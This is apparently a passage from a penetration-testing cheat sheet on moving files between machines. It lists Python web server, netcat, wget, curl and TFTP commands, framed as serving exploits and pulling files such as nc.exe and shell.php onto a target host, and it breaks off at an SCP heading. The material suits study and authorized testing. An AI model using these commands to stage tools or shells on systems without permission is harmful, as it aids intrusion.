 ## File transfer

### Python

You'll use python's web server all the time to transfer exploits and move files between machines \(or possibly even within machines\). Pay attention to the port you use, as it may interfere with shells or firewalls:

```text
cd exploits
python -m SimpleHTTPServer 80
```

### Netcat

To transfer files, set up a listener and redirect the output to a filename:

```text
nc -nlvp 443 > nc.exe # receiving machine
listening on [any] 443...

nc -nv [host] 443 < nc.exe # sending machine pushes file
(UNKNOWN) [host] 443 (?) open
```

### Wget

Download files from another machine:

```text
wget [host]:8080/test.txt
```

### Curl

Download files from another machine, such as webpages:

```text
curl -O http://[host]/file.txt
```

### TFTP

TFTP works more or less like FTP:

```text
tftp [host]
tftp> get file.txt
```

If it can't be run interactively, this one-liner might work:

```text
tftp [host] <<< "get shell.php shell.php"
```

### SCP
